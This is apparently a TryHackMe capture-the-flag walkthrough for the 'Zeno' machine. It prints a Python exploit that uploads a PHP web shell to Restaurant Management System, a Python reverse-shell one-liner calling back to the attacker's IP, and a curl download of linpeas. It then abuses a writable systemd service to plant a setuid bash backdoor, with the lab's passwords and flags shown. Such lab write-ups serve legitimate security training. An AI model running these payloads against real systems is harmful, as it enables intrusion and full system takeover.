

# Zeno

## Description

Do you have the same patience as the great stoic philosopher Zeno? Try it out!

Perform a penetration test against a vulnerable machine. Your end-goal is to become the root user and retrieve the two flags:

* /home/{{user}}/user.txt
* /root/root.txt

The flags are always in the same format, where XYZ is a MD5 hash: THM{XYZ}

The machine can take some time to fully boot up, so please be patient! :)

## Initial Scan

Let's start with a full port Nmap scan. The scan reveals two open ports:
* 22 ssh
* 12340 http

~~~
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
~~~

## Web

We have no creds for the ssh service, so let's start with enumerating the webpage on port 12340. The main page is a custom 404 page: 

I ran `dirsearch` on the webpage to find directories to work with:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Zeno]
└─$ dirsearch -u http://$IP:12340/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220520

Output File: /home/user/.dirsearch/reports/10.10.46.147/_21-11-07_07-05-42.txt

Error Log: /home/user/.dirsearch/logs/errors-21-11-07_07-05-42.log

Target: http://10.10.46.147:12340/

[07:05:42] Starting: 
[07:06:54] 301 -  238B  - /rms  ->  http://10.10.46.147:12340/rms/

Task Completed
~~~

We found a directory named `/rms`. Let's see what it's about:

## Exploit

"Restaurant Management System" is running on this directory. I searched for it in exploit-db and found an exploit. It is vulnerable to RCE. The exploit had so many formatting errors and was using proxy, so I had to change it a lot, but the result was satisfying. Here's the exploit:

~~~py
#!/usr/bin/python

import requests

print ("Credits : All InfoSec (Raja Ji's) Group")

url ="http://<MACHINE IP>:12340/rms/"

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0)Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target, headers=headers, data=data)

print("[+] Shell Uploaded. Please check the URL :\n"+url+"images/reverse-shell.php")
~~~

* **If you're using this exploit, don't forget to change the url.**

Now run the exploit and it will uplaod a reverse shell to the server. You can execute commands with the following format:

~~~
http://<MACHINE IP>:12340/rms/images/reverse-shell.php?cmd=<COMMAND>
~~~

## Reverse shell

Now that we can execute commands, we can run a reverse shell and get a shell on our machine. First start a listener on your machine.

Listener:
~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Zeno]
└─$ rlwrap nc -lvnp 4444                    
listening on [any] 4444 ...
~~~

Now brows the following url (don't forget to add your IP):
~~~
http://<MACHINE IP>:12340/rms/images/reverse-shell.php?cmd=python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
~~~

Now we have a shell as user `apache`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Zeno]
└─$ rlwrap nc -lvnp 4444                    
listening on [any] 4444 ...
connect to [10.9.1.114] from (UNKNOWN) [10.10.46.147] 36098
id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-4.2$
~~~

## apache -> edward

Now we need to escalate our privilege. I uploaded `linpeas` to the machine to find useful files for privesc. `wget` is not installed so I used `curl` to download it on the target machine:

First start a server using python where the linpeas is located:
~~~
┌──(user㉿Y0B01)-[/opt/linPEAS]
└─$ python3 -m http.server 80               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Then I used `curl` to download and write linpeas in a file on the target machine. Then I marked it to be executable and ran it:
~~~
sh-4.2$ cd /tmp
sh-4.2$ curl http://<YOUR IP>:80/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  465k  100  465k    0     0   221k      0  0:00:02  0:00:02 --:--:--  221k
sh-4.2$ chmod +x linpeas.sh
sh-4.2$ ./linpeas.sh
~~~

The linpeas result shows a few interesting things. The first one is the password for the database:

~~~
╔══════════╣ Searching passwords in config PHP files
    define('DB_DATABASE', 'rms');
    define('DB_PASSWORD', '');
    define('DB_USER', 'root');
    define('DB_DATABASE', 'dbrms');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_USER', 'root');
~~~

The second one is that we have write access to `etc/systemd/system/zeno-monitoring.service` which might come in handy later. The third one is the we found creds in `/etc/fstab` for a share named `secret-share`:

~~~
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /etc/systemd/system/zeno-monitoring.service

═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No
═╣ Credentials in fstab/mtab? ........... /etc/fstab:#//10.10.10.10/secret-share	/mnt/secret-share	cifs	_netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft	0 0
═╣ Can I read shadow files? ............. No                                                                                                 ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ 
═╣ Can I read shadow plists? ............ No
═╣ Can I write shadow plists? ........... No
═╣ Can I read opasswd file? ............. No
═╣ Can I write in network-scripts? ...... No
═╣ Can I read root folder? .............. No
~~~

We have one user on the machine named `edward`. First I tried the database password for the user and root, but it didn't work for neither of them. Fortunately the password found in `/etc/fstab` was valid for user `edward`:

~~~
sh-4.2$ su edward
Password: FrobjoodAdkoonceanJa
[edward@zeno secret-share]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=system_u:system_r:httpd_t:s0
~~~

Now we can connect to the machine via ssh using the creds we have: `edward:FrobjoodAdkoonceanJa`

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Zeno/files]
└─$ ssh edward@$IP
edward@10.10.46.147's password: 
Last login: Mon Nov  8 10:55:00 2021
[edward@zeno ~]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
~~~

## User flag

Now we can read the user flag located in `edward`'s home directory:

~~~
[edward@zeno ~]$ ls
user.txt
[edward@zeno ~]$ cat user.txt 
THM{070cab2c9dc622e5d25c0709f6cb0510}
~~~

User flag: `THM{070cab2c9dc622e5d25c0709f6cb0510}`

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
[edward@zeno ~]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
~~~

As you can see, we can run `/usr/sbin/reboot` with sudo and no password. We can't directly use this permission to switch to root, but as you can probably remember, we have write access to `/etc/systemd/system/zeno-monitoring.service` which is a config file for rebooting, or shutting down, or starting a machine.

There is a part in this file which specifies a command or a file to be executed with the name of `ExecStart=`. We have two ways now. The first one is to modify that part, to copy the root flag to edward's home directory.

The second one is to copy the bash binary to our home directory and mark it as executable with setuid and when we run it with sudo, we'll have a backdoor. I'm gonna use the second one to gain root access. I used `vim` to modify it. This is the content of `/etc/systemd/system/zeno-monitoring.service` after applying the changes:

~~~
[edward@zeno ~]$ vim /etc/systemd/system/zeno-monitoring.service
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /home/edward/rshell; chmod +xs /home/edward/rshell"

[Install]
WantedBy=multi-user.targe
~~~

Now we reboot the machine with sudo:

~~~
[edward@zeno ~]$ sudo /usr/sbin/reboot
~~~

Give the machine some time to fully configure again, and connect to it. As you can see, the backdoor is in our home directory now. Just run `./rshell -p` and you are root:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Zeno]
└─$ ssh edward@$IP
edward@10.10.46.147's password: 
Last login: Mon Nov  8 11:58:11 2021 from ip-10-9-1-171.eu-west-1.compute.internal
[edward@zeno ~]$ ls -la
total 964
drwxr-xr-x. 3 root root      141 Nov  8 12:03 .
drwxr-xr-x. 3 root root       20 Jul 26 21:55 ..
lrwxrwxrwx. 1 root root        9 Jul 26 22:16 .bash_history -> /dev/null
-rw-r--r--. 1 root root       18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 root root      193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 root root      231 Apr  1  2020 .bashrc
-rwsr-sr-x. 1 root root   964536 Nov  8 12:03 rshell
drwxr-xr-x. 2 root root       29 Sep 21 22:24 .ssh
-rw-r-----. 1 root edward     38 Jul 26 21:13 user.txt
-rw-------. 1 root root      699 Jul 26 22:15 .viminfo
[edward@zeno ~]$ ./rshell -p
rshell-4.2# id
uid=1000(edward) gid=1000(edward) euid=0(root) egid=0(root) groups=0(root),1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
~~~

## Root flag

Now head to `/root` and read the root flag:

~~~
rshell-4.2# cd /root
rshell-4.2# ls
anaconda-ks.cfg  bash_history  root.txt  zeno-monitoring.log  zeno-monitoring.py
rshell-4.2# cat root.txt 
THM{b187ce4b85232599ca72708ebde71791}
~~~

Root flag: `THM{b187ce4b85232599ca72708ebde71791}`

# D0N3! ; )

Thanks to the creator(s).

Hope you had fun and learned something.

Have a g00d one! : )
